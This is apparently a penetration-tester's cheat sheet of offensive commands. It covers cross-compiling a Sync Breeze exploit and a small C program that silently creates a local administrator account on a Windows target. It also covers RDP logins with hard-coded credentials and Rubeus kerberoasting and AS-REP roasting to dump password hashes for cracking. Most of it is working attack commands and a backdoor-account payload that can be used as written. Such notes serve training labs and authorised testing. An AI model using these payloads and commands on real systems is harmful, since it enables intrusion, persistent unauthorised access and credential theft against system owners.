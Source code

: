 ### pspy
```bash
./pspy64 -pf -i 1000
```

### Cross Compiling
```bash
sudo apt install mingw-w64
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
#  when the linker cannot find the winsock library
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32



############## adduser.c ####################################
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user nuri password123! /add");
  i = system ("net localgroup administrators nuri /add");
  i = system ("net localgroup 'Remote Management Users' nuri /add");
  
  return 0;
}
#############################################################

# Cross compile adduser.c code to 64-bit applcation
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

```


### xfreerdp
```bash
xfreerdp /u:administrator /p:qwertyuiop /v:10.3.26.190:3333 /cert:ignore
```

### rdesktop
```bash
rdesktop 192.168.216.165
```

### Rubeus
```bash
# kerberoast
./Rubeus.exe kerberoast /format:hashcat /outfile:mssql_hash

# asreproast
./Rubeus.exe asreproast  /format:hashcat /outfile:<FILE>
```
